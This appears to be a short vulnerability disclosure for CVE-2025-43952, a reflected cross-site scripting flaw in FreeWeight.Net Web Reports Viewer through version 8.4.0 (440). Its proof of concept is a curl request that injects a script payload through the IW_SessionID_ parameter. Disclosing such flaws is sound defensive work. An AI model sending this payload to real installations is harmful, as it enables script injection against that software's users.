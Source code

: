 # CVE-2025-43952
Cross-site scripting (reflected) vulnerability found in FreeWeight.Net Web Reports Viewer version v8.4.0 (440) allows an attacker to inject malicious scripts via the "IW_SessionID_" parameter.

# Affected Product & Version
FreeWeight.Net Web Reports Viewer <= 8.4.0 (440) </br>

Reference: www.mt.com/FreeWeighNet

# PoC
cURL command:
````
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: YOUR-INSTANCE-URL' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Origin: http://YOUR-INSTANCE-URL' -H $'Referer: http://YOUR-INSTANCE-URL/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: keep-alive' \
    -b $'IW_FreeWeighNetWebReportsViewer=TOKEN' \
    $'http://YOUR-INSTANCE-URL/$/callback?callback=IWPBSAVE.DoOnAsyncButtonClick&IWEDOLDPASSWORD=\'&IWPBSAVE=&IW_FormName=LoginChangePassword&IW_FormClass=TLoginChangePassword&IW_width=1523&IW_height=799&IW_Action=undefined&IW_ActionParam=&IW_Offset=&IW_SessionID_=TOKEN7d%7d%7dyokem%3cscript%3ealert(1)%3c%2fscript%3ex3j7bradj7d&IW_TrackID_=5&IW_WindowID_=&IW_AjaxID=TOKEN&IW_FormID_=undefined'
````

# Credits
This vulnerability was discovered by Manjyot Singh of Henkel Cyber Security Team.
